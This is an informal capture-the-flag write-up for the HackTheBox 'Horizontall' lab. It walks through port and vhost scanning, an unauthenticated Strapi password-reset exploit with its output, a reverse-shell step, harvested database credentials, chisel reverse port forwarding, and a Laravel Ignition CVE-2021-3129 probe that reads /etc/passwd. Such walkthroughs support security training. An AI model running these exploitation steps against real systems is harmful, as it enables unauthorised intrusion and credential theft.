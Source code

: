 # HACKTHEBOX - Horizontall

## Description
A write-up with a lot of personal note so is pretty messy!!

```bash
export IP=10.10.11.105
```

## Enumeration
```bash
alias rustscan='sudo docker run -it --rm --name rustscan rustscan/rustscan'
rustscan -a $IP -g # [22,80]

sudo nmap -v -sC -sV -p 22,80 -o nmap.txt $IP
```

**nmap result**:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Redirect to `domain name`
```bash
sudo subl /etc/hosts
# 10.10.11.105 horizontall.htb
```

brute-force directory: `nothing!!`
```bash
gobuster dir -w /usr/share/wordlists/dirb/common.tx -u http://horizontall.htb/
```

brute-force `vhost` in Host header: `something!!`
```bash
wfuzz -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -v -H "Host: FUZZ.horizontall.htb" --hc 301 -u http://horizontall.htb/

# OR 
gobuster vhost -u http://horizontall.htb/ -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt

# www
# api-prod

# gobuster subdomain ....
```
Also, inspect `js file`(html source code) --> api-prod....

**Virtual Host**: https://en.wikipedia.org/wiki/Virtual_hosting (vhost is just like independent webserver while subdomain like a sub main-folder of the web app)

**To access a vhost**:
```bash
/sudo subl /etc/hosts
# 10.10.11.105 horizontall.htb api-prod.horizontall.htb
```
**CMS**: `Strapi`

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u http://api-prod.horizontall.htb/
# /admin
```
`/admin --> admin/auth/login`

In `init request`:
```json
{"data":{"uuid":"a55da3bd-9693-4a08-9279-f9df57fd1817","currentEnvironment":"development","autoReload":false,"strapiVersion":"3.0.0-beta.17.4"}}
```
```bash
searchsploit strapi 3.0
# Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated) | multiple/webapps/50239.py
searchsploit -m multiple/webapps/50239.py
```
**CVE-2019-18818**: `strapi before 3.0.0-beta.17.5` `mishandles password resets` within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js.

Object injection via ResetPassword parameter.

## Exploit
```bash
python3 50239.py http://api-prod.horizontall.htb
# [+] Password reset was successfully
# [+] Your email is: admin@horizontall.htb
# [+] Your new credentials are: admin:SuperStrongPassword1
# [+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0MTYzMTQ5LCJleHAiOjE2NDY3NTUxNDl9.7SGucFCRHNCi-HhW8xF4cZ9ZcV3l3GKU45hb9e7BiWc

# blind rce
# nc mkfifo --> reverse-shell
# python3 --> interactive shell

cat /etc/passwd | grep strapi # we have our own shell --> can establist a ssh shell
```

Reverse shell commonly fail maybe also because of bad characters, we can get around this by hosting a webshell.

**user flag**: `HTB{2dd8275a0606fd1eba918466557XXXXX}`

## Privileged Escalation
```bash
./linpeas.sh

# mamnual enumeration

# go to directory you wanna enumerate
grep -Ri password . # Or just make it ugly with /
env | grep DATA # SECRET_KEY
# ....
```

**Found**: but not useful!
```
-rw-rw-r-- 1 strapi strapi 351 May 26  2021 /opt/strapi/myapi/config/environments/development/database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

```bash
mysql -u developer
# Password: #J!:F9Zt2u
# nothing here!

su developer
# Password: #J!:F9Zt2u
# failed here!
```

**Scan ports in local**:
```bash
nc -z -v 10.10.11.105 1-10000 2>&1 | grep succeeded # dumb scan

# Download nmap binary to scan(linpeas not support ports scan subnet!!)
./nmap.sh localhost -v -p-

# using default command in linux <RECOMMENDED>
ss -l # investigate socket(check ports open)
```
**nmap results**:
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  unknown
3306/tcp open  mysql
8000/tcp open  unknown
```

```bash
curl localhost:8000 # web server here!, let's port forwarding
```

### Port Forwading
**Using Chisel**:
```bash
# kali machine
/chisel_1.7.3_linux_amd64 server -p 8989 --reverse &

# horizontall machine
# ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
./chisel_1.7.3_linux_amd64 client 10.10.14.32:8989 R:34567:127.0.0.1:8000 &
# This chisel client will connect back to our chisel server listening on port(8989) in our machine, port 34567 is local_port that forwarding to 8989 server port to port 8000 at horizontall machine. Need more explain here!!

# test
curl locahost:34567 # success!!
# Laravel v8 (PHP v7.4.18)
```

**Using SSH**:
```bash
# using SSH
ssh -i id_rsa strapi@horizontall.htb -L 34567:127.0.0.1:8000
#in ssh Command Prompt
> -L 8001:127.0.0.1:8000
```

### Exploit again
Google search `Laravel v8 (PHP v7.4.18)` --> debug mode to RCE --> https://esmyl.medium.com/exploiting-laravel-v8-30-0-php-v7-3-25-debug-rce-3731f69c33d7
```bash
curl -d '{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "/etc/passwd%00"}}' -H 'Content-Type: application/json' http://127.0.0.1:34567/_ignition/execute-solution | grep failed
# ....failed to open stream:....
```

Error message "ErrorException: file_get_contents(/etc/passwd%00): failed to open stream:" indicates HOST is VULNERABLE! --> `CVE-2021-3129` Laravel  Ignition 

**exploit tool**: https://github.com/rocketscientist911/CVE-2021-3129/blob/master/exploit.py

Download and then just modify the path + command:
![edit the code](cve-2021-3129-exploit-file.png)

**root flag**: `HTB{21a933c797a8fc2623472fbf7e4XXXXX}`
